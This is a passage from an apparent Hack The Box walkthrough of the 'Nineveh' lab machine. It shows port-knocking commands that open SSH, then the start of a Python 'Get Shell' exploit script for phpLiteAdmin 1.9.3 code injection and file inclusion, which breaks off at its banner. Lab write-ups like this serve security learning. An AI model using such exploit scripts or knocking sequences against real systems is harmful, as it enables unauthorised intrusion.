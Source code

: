 Now we can to use the port sequence for open the port 22.

### Port Knocking

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2030.png)

```bash
nmap  10.10.10.43 -p 22
knock 10.10.10.43 571 290 911
nmap 10.10.10.43 -p 22
```

or

```bash
for x in 22 571 290 911 22; do nmap -Pn --max-retries 0 -p $x nineveh.htb; done
```

# Get Shell - Script Automation

```python
#! /usr/bin/env python3

#### Title: Exploit Phpliteadmin 1.9.3 - Remote PHP Code Injection and Local File Inclusion (LFI)
#### Description: GetShell - Nineveh - HTB
#### Author: 0xEtern4lW0lf
#### Created: 03 Jan 2023

#### ========= MODULES =========

# hardler
import socket, telnetlib
from threading import Thread

# http lib
import requests, urllib, urllib3
urllib3.disable_warnings()

import argparse
import sys
import base64
import time

## ========= VARIABLE =========

#### COLORS ####
RED = "\033[1;91m"
YELLOW = "\033[1;93m"
BLUE = "\033[1;94m"
GREEN = "\033[1;92m"
END = "\033[1;m "

## Set proxy [OPTIONAL]
#proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

## ========= FUNCTION =========

## Banner
def banner():
  EwLogo = f"""

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⡀⠀⠀⠀⠀⠀⠀⣀⠠⠤⢤⣤⣶⣴⣦⣤⣤⣀⡀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⣿⣿⣿⣿⣿⣿⣿⣿⡞⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠛⠻⢿⣷⣄⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠻⣄⠈⠉⠛⠿⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠐⡯⣿⣷⡄⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠰⢾⣿⣿⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⢌⡻⢿⡆⠀
```